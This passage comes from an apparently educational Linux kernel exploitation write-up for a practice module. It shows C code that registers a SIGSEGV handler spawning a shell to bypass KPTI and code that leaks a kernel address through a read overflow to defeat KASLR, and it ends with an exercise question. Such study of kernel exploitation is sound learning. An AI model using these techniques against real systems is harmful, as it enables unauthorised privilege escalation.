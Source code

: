 You can read [here](https://www.man7.org/linux/man-pages/man7/signal.7.html) for more information about signals. So how can we use signals to bypass KPTI? We all know that our exploit in [#Exploit: kROP](#exploit-krop-bypass-smep-smap-with-no-kpti-no-kaslr) will cause a SIGSEGV when we try to execute it in KPTI enabled kernel. And note that the segmentation fault (SIGSEGV) is just a userland thing, not from kernel. So what can stop us from registering a signal handler for SIGSEGV and will call `get_shell()` function when it is triggered?

```c
#include <signal.h>

struct sigaction sigact;
void register_sigsegv()
{
    logInfo("Registering SIGSEGV handler");
    sigact.sa_handler = get_shell;
    sigemptyset(&sigact.sa_mask);
    sigact.sa_flags = 0;
    sigaction(SIGSEGV, &sigact, (struct sigaction *)NULL);
}
```

And here is my full [exploit](./kpti/exploit_signal_handler.c) code for this technique.

## Avoiding KASLR

So in the case the kASLR is enabled, we first need to find a way to leak it. The kernel has 1 GB of address space from `0xffffffff80000000 to 0xffffffffc0000000`. Therefore, even if KASLR is enabled, only 0x3f0 or so base addresses will be generated from 0x810 to 0xc00. However, the overflow bug also in `module_read` function. So we can use that to leak the kernel address that available after the save RIP

```c
    char buf[0x500];
    memset(buf, 'A', 0x480);
    read(fd, buf, 0x410);
    uint64_t leaked_address = *(uint64_t *)&buf[0x408];
    uint64_t kbase = leaked_address - 0x13d33c; // 0xffffffff8113d33c-0xffffffff81000000 = 0x13d33c
```

Everything is the same as previous exploit, but we need to `kbase + offset` to get the real address of the functions and gadgets we need for the ROP chain. So here is the full [exploit code](./kaslr/exploit.c).

## Bonus

### Question 1

```
Is it possible to use only the stack overflow vulnerability of practice LK01, and to use the following combinations of security mechanisms to escalate privileges using only ret2user without ROP? Write exploit if possible, and explain why if not.
(1) SMAP disabled / SMEP disabled / KPTI enabled
(2) SMAP enabled / SMEP disabled / KPTI disabled
```

